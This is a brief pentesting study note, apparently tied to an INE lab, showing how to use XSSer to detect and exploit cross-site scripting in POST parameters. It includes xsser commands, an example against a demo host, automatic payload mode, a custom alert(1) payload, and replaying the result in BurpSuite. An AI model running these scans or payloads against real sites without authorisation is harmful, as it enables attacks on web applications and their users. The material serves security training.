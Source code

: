 * Post perm attack + Confirm vul:

find an XXS taget (with BurpSuite help to check the request)

```
xsser -u <url> -p <post_parm>
```

> example:
>
> xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target\_host=XSS\&dns-lookup-php-submit-button=Lookup+DNS'
>
> the output can confirm of target is vul.
>
> after that you can: Trying various XSS payloads by using XSSer's "`--auto`" option.&#x20;

* try various vul.

```
xsser -u <url> -p <post_parm> --auto
```

* Custome XSS payload:

```
xsser -u <url> -p <post_parm> --Fp "<script>alert(1)</script>"
```

Output: under `Final attack:`will generate a payload use it in BurpSuite,by replacing the POST, in this case, is the `Target_host=`

![xsser final attack pasted and forwarded in BurpSuite.](<../../.gitbook/assets/image (47).png>)
